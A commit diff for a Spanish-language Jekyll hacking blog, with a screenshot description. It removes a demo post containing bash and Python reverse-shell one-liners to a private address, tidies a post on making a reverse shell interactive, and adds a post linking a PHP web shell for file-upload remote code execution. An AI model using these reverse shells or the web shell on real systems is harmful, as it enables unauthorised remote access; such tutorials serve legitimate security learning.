

Before and after one commit to Buzzerage/Buzzerage.github.io, a Jekyll site: the page built from _posts/2020-11-22-shell-tty-interactiva.md, in a window 1280 px wide and 1400 px high, scrolled down 611 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
[Automation] Updated the Categories, Tags, Lastmod for post(s).

````diff
--- a/_data/updates.yml
+++ b/_data/updates.yml
@@ -1,3 +1,3 @@
 -
-  filename: 'text-and-typography'
-  lastmod: '2020-10-26 13:53:46 +0100'
+  filename: 'shell-tty-interactiva'
+  lastmod: '2021-04-05 14:26:50 +0100'
--- a/_posts/2019-08-08-hola.md
+++ /dev/null
@@ -1,38 +0,0 @@
----
-title: hola
-author: Cotes Chung
-date: 2019-08-08 11:33:00 +0800
-categories: [Blogging, Demo]
-tags: [typography]
-math: true
----
-
-# How to do a reverse shell
-
-## Paragraph
-
-Esto es una prueba de hackaxione
-
-## Tables
-Tipos de reverse shell
-
-|uno mu bueno|uno mu malo|
-|:---|---:|
-|Python | bash
-
-## Link
-Mas información en <http://adpego.com>
-
-
-#### Shell
-
-```shell
-    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
-```
-
-### Python
-
-```python
-    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
-```
-Grasia
--- a/_posts/2019-08-08-text-and-typography.md
+++ /dev/null
@@ -1,168 +0,0 @@
----
-title: Text and Typography
-author: Cotes Chung
-date: 2019-08-08 11:33:00 +0800
-categories: [Blogging, Demo]
-tags: [typography]
-math: true
----
-
-This Jekyll template totally compatible with Markdown syntax. Now, let's take a look for the text and typography in here.
-
-## Titles
-
-***
-# H1
-
-<h2 data-toc-skip>H2</h2>
-
-<h3 data-toc-skip>H3</h3>
-
-#### H4
-
-***
-
-## Paragraph
-
-I wandered lonely as a cloud
-
-That floats on high o'er vales and hills,
-
-When all at once I saw a crowd,
-
-A host, of golden daffodils;
-
-Beside the lake, beneath the trees,
-
-Fluttering and dancing in the breeze.
-
-## Block Quote
-
-> This line to shows the Block Quote.
-
-## Tables
-
-|Company|Contact|Country|
-|:---|:--|---:|
-|Alfreds Futterkiste | Maria Anders | Germany
-|Island Trading | Helen Bennett | UK
-|Magazzini Alimentari Riuniti | Giovanni Rovelli | Italy
-
-## Link
-
-<http://127.0.0.1:4000>
-
-
-## Footnote
-
-Click the hook will locate the footnote[^footnote].
-
-
-## Image
-
-![Desktop View]({{ "/assets/img/sample/mockup.png" | relative_url }})
-
-
-## Inline code
-
-This is an example of `Inline Code`.
-
-## Mathematics
-
-The mathematics powered by [**MathJax**](https://www.mathjax.org/):
-
-$$ \sum_{n=1}^\infty 1/n^2 = \frac{\pi^2}{6} $$
-
-When \\(a \ne 0\\), there are two solutions to \\(ax^2 + bx + c = 0\\) and they are
-
-$$ x = {-b \pm \sqrt{b^2-4ac} \over 2a} $$
-
-## Code Snippet
-
-### Common
-
-```
-This is a common code snippet, without syntax highlight and line number.
-```
-
-### Specific Languages
-
-#### Console
-
-```console
-$ date
-Sun Nov  3 15:11:12 CST 2019
-```
-
-
-#### Terminal
-
-```terminal
-$ env |grep SHELL
-SHELL=/usr/local/bin/bash
-PYENV_SHELL=bash
-```
-
-#### Ruby
-
-```ruby
-def sum_eq_n?(arr, n)
-  return true if arr.empty? && n == 0
-  arr.product(arr).reject { |a,b| a == b }.any? { |a,b| a + b == n }
-end
-```
-
-#### Shell
-
-```shell
-if [ $? -ne 0 ]; then
-    echo "The command was not successful.";
-    #do the needful / exit
-fi;
-```
-
-#### Liquid
-
-{% raw %}
-```liquid
-{% if product.title contains 'Pack' %}
-  This product's title contains the word Pack.
-{% endif %}
-```
-{% endraw %}
-
-#### HTML
-
-```html
-<div class="sidenav">
-  <a href="#contact">Contact</a>
-  <button class="dropdown-btn">Dropdown
-    <i class="fa fa-caret-down"></i>
-  </button>
-  <div class="dropdown-container">
-    <a href="#">Link 1</a>
-    <a href="#">Link 2</a>
-    <a href="#">Link 3</a>
-  </div>
-  <a href="#contact">Search</a>
-</div>
-```
-
-**Horizontal Scrolling**
-
-```html
-<div class="panel-group">
-  <div class="panel panel-default">
-    <div class="panel-heading" id="{{ category_name }}">
-      <i class="far fa-folder"></i>
-      <p>This is a very long long long long long long long long long long long long long long long long long long long long long line.</p>
-      </a>
-    </div>
-  </div>
-</div>
-```
-
-
-## Reverse Footnote
-
-[^footnote]: The footnote source.
--- a/_posts/2020-11-22-shell-tty-interactiva.md
+++ b/_posts/2020-11-22-shell-tty-interactiva.md
@@ -32,14 +32,14 @@
 [INTRO]
 ```
 
-Con **'fg'** se volverá a abrir la *reverse shell* pero el formateo estará desactivado. Al presionar el *'INTRO'* ya debería verse normal nuevamente.
+Con `fg` se volverá a abrir la *reverse shell*, pero el formateo estará desactivado. Al presionar el *'INTRO'* ya debería verse normal nuevamente.
 
-El último paso es configurar la shell con algunos de los parametros que tenemos en nustra terminal. Para ver cuales son las medidas que debemos aplicar, desde nuestra terminal  usaremos el comando `stty -a`. La información que necessitaremos seran los valores de rows y columns que se encuentran el la primera linea. Una vez tenemos anotadas las medidas de la stty procedemos:
+El último paso es configurar la shell con algunos de los parámetros que tenemos en nuestra terminal. Para ver cuáles son las medidas que debemos aplicar, desde nuestra terminal  usaremos el comando `stty -a`. La información que necesitaremos serán los valores de rows y columns que se encuentran en la primera línea. Una vez tenemos anotadas las medidas de la stty procedemos:
 
 ```terminal
 export $TERM=xterm
 stty rows R columns C
 ```
-Donde R y C seran los mismos valores que teniamos en nuestra terminal.
+Donde R y C serán los mismos valores que teníamos en nuestra terminal.
 
 Con esto ya tendremos nuestra shell TTY totalmente interactiva ^^.
--- /dev/null
+++ b/_posts/2021-05-04-2-file-rce-upload.md
@@ -0,0 +1,12 @@
+---
+title: File Upload to Remote Code Execution (PHP)
+author: Buzzerage
+date: 2021-04-05 11:33:00 +0800
+categories: [Utilities]
+tags: [File Upload, Hacking, Shell, Truco, RCE, Commandos]
+math: true
+---
+
+Para cuando nos encotremos una vulnerabilidad en la qual se puedan subir ficheros en un servidor y este pueda interpretar codigo en php, he construido un fichero con una interfaz para poder passar a ejecutar comandos de una forma mas sencilla y fácil. Para eso tenemos el link del fichero en el siguiente enlace:
+
+<https://github.com/Buzzerage/rce_shell/blob/main/gekkshell_rce.php>
--- a/categories/blogging.html
+++ /dev/null
@@ -1,5 +0,0 @@
----
-layout: category
-title: Blogging
-category: Blogging
----
--- a/categories/demo.html
+++ /dev/null
@@ -1,5 +0,0 @@
----
-layout: category
-title: Demo
-category: Demo
----
--- /dev/null
+++ b/categories/utilities.html
@@ -0,0 +1,5 @@
+---
+layout: category
+title: Utilities
+category: Utilities
+---
--- /dev/null
+++ b/tags/commandos.html
@@ -0,0 +1,5 @@
+---
+layout: tag
+title: Commandos
+tag: Commandos
+---
--- /dev/null
+++ b/tags/file-upload.html
@@ -0,0 +1,5 @@
+---
+layout: tag
+title: File Upload
+tag: File Upload
+---
--- /dev/null
+++ b/tags/rce.html
@@ -0,0 +1,5 @@
+---
+layout: tag
+title: RCE
+tag: RCE
+---
--- a/tags/typography.html
+++ /dev/null
@@ -1,5 +0,0 @@
----
-layout: tag
-title: typography
-tag: typography
----
````
Also changed, not shown: other parts of _posts/2020-11-22-shell-tty-interactiva.md (+1 -1 lines).
